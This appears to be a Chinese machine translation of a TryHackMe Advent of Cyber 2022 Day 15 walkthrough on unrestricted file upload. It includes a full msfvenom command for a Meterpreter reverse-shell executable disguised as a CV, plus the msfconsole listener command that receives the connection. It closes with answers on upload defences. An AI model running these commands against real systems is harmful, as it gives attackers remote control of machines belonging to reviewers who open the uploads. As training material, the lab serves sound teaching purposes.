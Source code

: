 # 赛博 2022 的来临[第 15 天]安全编码|圣诞老人正在寻找一个助手|简单的书面记录

> 原文：<https://infosecwriteups.com/advent-of-cyber-2022-day-15-secure-coding-santa-is-looking-for-a-sidekick-simple-write-up-60fe902423ef?source=collection_archive---------2----------------------->

## 任务 20 答案—赛博 2022 的来临[第 15 天] **安全编码**圣诞老人正在寻找一个由 Karthikeyan Nagaraj 撰写的助手

![](img/d78e5586fc19141e7cee052f25625a65.png)

# 输入验证

> *输入验证不足是 web 应用程序最大的安全隐患之一。当用户提供的输入受到应用程序的固有信任时，就会出现此问题。由于用户输入也可能被攻击者控制，我们可以看到这种固有的信任是如何导致许多问题的。*
> 
> *多个 web 应用漏洞，如 SQL 注入、跨站脚本、无限制文件上传等，都源于用户输入验证不充分的问题。*

启动机器，将机器的 IP 粘贴到浏览器中！

> 如果需要，连接 TryHackMe 的 VPN

![](img/afd213ac13fcef255f616d2631ab305b.png)

# 圣诞老人正在寻找一个助手

## 1.允许威胁参与者上传他们想要的任何文件的文件上传的名称是什么？

利用对服务器的*无限制上传访问权限(以及随意检索数据的能力)，攻击者可以篡改或以其他方式更改现有内容——甚至包括注入恶意网页，从而导致进一步的漏洞，如跨站脚本(XSS)或跨站请求伪造(CSRF)*

```
*Ans: Unrestricted*
```

## *2.圣诞老人的自由职业者开发的 web 应用程序的标题是什么？*

*![](img/1cd9c81c41fed8e05aa4d2938310736a.png)*

```
*Ans: Santasidekick2*
```

## *3.HR Elf 的 Documents 目录中存储的标志值是多少？*

*只需上传一个虚拟文件！！*

*![](img/a2677f13371fae4ac07be8767a7d74e0.png)**![](img/33385a3b285d7d7806e331cb0c104e8e.png)*

> ****cv-username.exe 简历文件上传完毕！！圣诞老人团队会审核你的简历并联系你！因为 Santa 相信强大的安全性，所以文件被存储在 web 根目录之外。不允许有不道德的精灵！****

*上面的消息确保有人会检查文件，所以我们可以上传一个有效负载并等待交互*

```
*msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<YOUR-MACHINE-IP> LPORT=8080 -f exe -o cv-username.exe*
```

*![](img/468d9ca27b1a2c37026ab3fa33e46574.png)*

*让我们启动反向处理器！！*

```
*sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST <YOUR-MACHINE-IP>; set LPORT 8080; exploit"*
```

*![](img/e2d73284fbc58916f456c4e0aa4db195.png)**![](img/ec5a5976deb1b8e7d50d9abb2cabbf32.png)*

*让我们将我们在 Home Directory 中创建的有效负载上传到网站，然后等待交互！！*

*![](img/1badad830924f624296645237ebf7979.png)*

*我们得到了反向连接！！*

*![](img/8b7c03a998ea7b20a8568c4de3997a5a.png)*

*现在让我们利用*

*![](img/3dd0bc1bffeb942bd27465e72ead30bc.png)*

*我们在 system32 目录中，所以让我们回到 C:目录*

```
*cd ..
cd .. 
cd Users
cd HR_Elf
cd Documents
cat flag.txt*
```

*![](img/2325db98be53f15184199b26228c8762.png)**![](img/e69d54040438fe8462a03d37d517613d.png)**![](img/886cd5bf38a0f7393b5d2b0880dd1202.png)*

```
*Ans: THM{Naughty.File.Uploads.Can.Get.You.RCE}*
```

## *4.可以实施什么防御技术来确保特定类型的文件可以上传？*

> **为了确保可以上传特定的文件类型，我们可以验证文件扩展名。这将允许我们限制可以上传的文件类型。**

```
*Ans: file Extension validation*
```

## *5.可以使用什么防御技术来确保威胁参与者无法通过简单地使用文件名再次恢复他们的文件？*

*即使我们的上传存储在 web 根目录之外，攻击者也可以利用其他漏洞(如文件包含)来执行文件。*

*为了对抗这些企图，我们可以将 ***重命名*** 上传的文件随机命名，使得攻击者几乎不可能通过名字来恢复他们的文件*

```
*Ans: File Renaming*
```

## *6.什么样的防御技术可以用来确保伤害精灵的恶意文件不会被上传？*

*仍然存在攻击者上传恶意文件的风险，该文件的目标是审核 CVs 的精灵。由于圣诞老人是一个高价值的个体，一些民族国家甚至可能使用 PDF 阅读器中发现的专门漏洞来上传恶意 PDF，希望能够将自己从圣诞老人的淘气名单中删除！*

*为了打击这些类型的恶意文件，我们可以通过 ***扫描上传文件中的恶意软件*** 。我们可以安装一个包，比如 ClamAV，用它来扫描每个上传文件的内容*

```
 *Ans: Malware Scanning*
```

*感谢您的阅读！！*

*黑客快乐~*

```
*Author : Karthikeyan Nagaraj ~ Cyberw1ng*
```

*查询:*

*THM，TryHackMe，TryHackMe 2022 年网络时代的到来，TryHackMe 2022 年网络时代的到来第 15 天，道德黑客，写，走过，TryHackMe 2022 年网络时代的到来第 15 天答案*

## *来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周时事通讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！*